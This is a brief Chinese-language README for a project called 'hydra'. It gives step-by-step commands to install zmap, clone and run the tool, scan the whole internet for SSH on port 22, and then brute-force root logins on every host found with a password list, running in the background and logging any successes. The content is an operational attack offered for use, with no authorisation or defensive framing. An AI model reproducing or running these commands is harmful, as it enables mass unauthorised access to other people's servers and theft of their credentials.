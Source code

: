  ### 安装zmap 克隆项目

	apt update && apt install zmap && apt install git && git clone https://github.com/qq1521575701/hydra.git && cd hydra && chmod +x hydra.sh

  ### zmap扫描ssh服务

	zmap -p 22 0.0.0.0/0 -N 10000 -o ssh.txt

  ### 运行项目

  	nohup ./hydra.sh ssh.txt root pass.txt 150 res.txt > hydra.log &

  ### 查看运行详情

  	tail -f hydra.log

 ### 查看结果

  	tail -f res.txt
  
